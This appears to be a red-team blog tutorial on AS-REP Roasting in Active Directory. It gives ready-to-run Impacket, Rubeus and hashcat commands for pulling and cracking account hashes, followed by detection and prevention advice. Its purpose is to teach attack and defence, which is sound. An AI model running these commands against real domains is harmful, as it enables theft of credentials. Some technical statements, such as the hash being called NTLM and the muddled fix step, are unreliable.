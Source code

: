 ```yaml
---
title: 'AS-REP Roasting'
date: 2025-09-23
permalink: /posts/asreproasting/
tags:
  - red team playbook
---
```


AS-REP Roasting is targeting misconfigured users in Windows AD.

| Tactic (MITRE ATT&CK) | Technique (MITRE ATT&CK)    | Objective                                                    | Permissions Required                        | Common Tools              |
| --------------------- | --------------------------- | ------------------------------------------------------------ | ------------------------------------------- | ------------------------- |
| Credential Access     | T1558.004 - AS-REP Roasting | Getting disabled kerberos authentication account pasword hash | Unauthenticated. Only need to connect to DC | Rubeus, Impacket, Hashcat |

---

# 1. Principle
AS-REP Roasting is targeting misconfigured users in Windows AD.

- **Pre-authentication:** Normally, when a user login, the user will send a AS-ESQ request to server. To prevent fake user request, KDC will request users to provide a "pre-authentication". It is a user's password hash with timestamps. When KDC received it, KDC will use the saved password hash to decrypt. If it is successful, it means the user has the correct password.

- **Vulnerability:** In AD, it is allowed to set a property about "DONT_REQ_PREAUTH" (UAC - 4194304) for a user. When the property is enabled, KDC will bypass the above authentication steps.
- **Attack Process:** 
  - **Discovery:** Attacker just need a valid username list (It could be brute force/OSINT/other ways to get it)
  - **Request:** Attacker could send a AS-REQ request to KDC for every users in the list which is not containing pre-authentication information.
  - **Gain:** If a user set `DONT_REQ_PREAUTH`, KDC will pass a `AS-REP`message which contained user's NTLM password hash which is encrypted. This is part of the TGT (Ticket Granting Ticket).
  - **Crack:** After getting AS-REP, they can export it and use hashcat to brute force.

Attacker just need the username and KDC's IP address.

# 2. Attack Steps & Commands

### Method 1: Using Impacket (in Linux/MacOS attack machine)
**Step 1: Prepare username list**
```
# user_list.txt
administrator
admin
guest
testuser
svc_sql
```

**Step 2: Perform attack**
- `GetNPUsers.py` is for this attack
```
# -dc-ip: DC IP
# -usersfile: Username File
# -format hashcat: save as the format, hashcat can crack it
# corp.local/: provide a domain name only

python3 GetNPUsers.py -dc-ip 192.168.1.10 -usersfile user_list.txt -format hashcat -outputfile hashes.txt corp.local/
```
If it is successful, the `hashes.txt`contains `$krb5asrep$23$svc_nopreauth@CORP.LOCAL: ...[hash]...`will show the valid AS-REP users.

**Step 3: Cracking**
- Brute force the `hashes.txt` with Hashcat
```
hashcat -m 18200 -a 0 hashes.txt /path/to/wordlist.txt
#  `-m 18200` is the format of Kerberos 5 AS-REP etype 23
```

### Method 2: Using Rubeus (on Windows machine)
- If the attacker has already get the shell, they can use this:
```
# /nopreauth: targeted user type
# /domain: targeted domain
# /dc: targeted domain controller
# /format:hashcat:

.\Rubeus.exe asreproast /nopreauth /domain:corp.local /dc:dc01.corp.local /format:hashcat /outfile:hashes.txt
```

## 3. Defense & Mitigation
### Detection
1.  **Monitoring ID 4768:**
    *   event ID should be: `A Kerberos authentication ticket (TGT) was requested`. Finding the `successful`message related to ID 4768 but the `Pre-Authentication Type` value should be `0`. 
2.  **Packet Analysis:**
    *   Some open source tools such as Zeek/Suricata. These ype of NIDS can monitor Kerberos traffic (Port 88). Find some string related to `padata` (Pre-Authentication Data).

### Prevention
1. **Enable kerberos pre-authentication:**
   *   Find the users in AD which set `DONT_REQ_PREAUTH`.Fix it in "Active Directory Users and Computers" --> Choose  "Do not require Kerberos preauthentication"

   ```
   Get-ADUser -Filter {UserAccountControl -band 4194304} -Properties SamAccountName,UserAccountControl
   ```
2. **Remove non active users**
3. **Complex Password**